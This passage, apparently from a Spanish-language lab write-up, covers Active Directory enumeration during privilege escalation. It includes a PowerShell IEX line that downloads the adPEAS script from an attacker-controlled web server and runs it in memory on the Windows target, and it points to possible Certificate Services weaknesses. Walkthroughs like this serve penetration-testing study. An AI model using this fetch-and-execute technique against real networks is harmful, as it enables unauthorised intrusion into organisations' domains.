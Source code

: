 <figure><img src="../../../.gitbook/assets/1442_vmware_PAJ0D2AuMY.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### DC Enumeration (adPEAS) - Powershell tool to automate Active Directory enumeration

Procederemos de realizar una enumeración del AD a travñes de la herramienta **adPEAS.ps1** que es un script de Powershell (parecido a winPEAS) pero en vez de buscar malas configuraciones de Windows, hace exactamente lo mismo pero en el entorno del AD.

Nos lo descargaremos en nuestra Kali, levantaremos un servidor web con Pyton y a través de IEX en el equipo Windows, lo importaremos en memoria.

```powershell
wget https://raw.githubusercontent.com/61106960/adPEAS/refs/heads/main/adPEAS.ps1

python3 -m http.server 80

IEX (New-Object Net.WebClient).DownloadString("http:/10.10.14.14/adPEAS.ps1")

Invoke-adPEAS
```

<figure><img src="../../../.gitbook/assets/1443_vmware_ER2i14ECJl.png" alt=""><figcaption></figcaption></figure>

Dentro del resultado del análisis nos encuentra información sobre _Active Directory Certificate Services_ en el cual nos reporta de posiblemente sea vulnerable, y nos indica que revisemos [https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
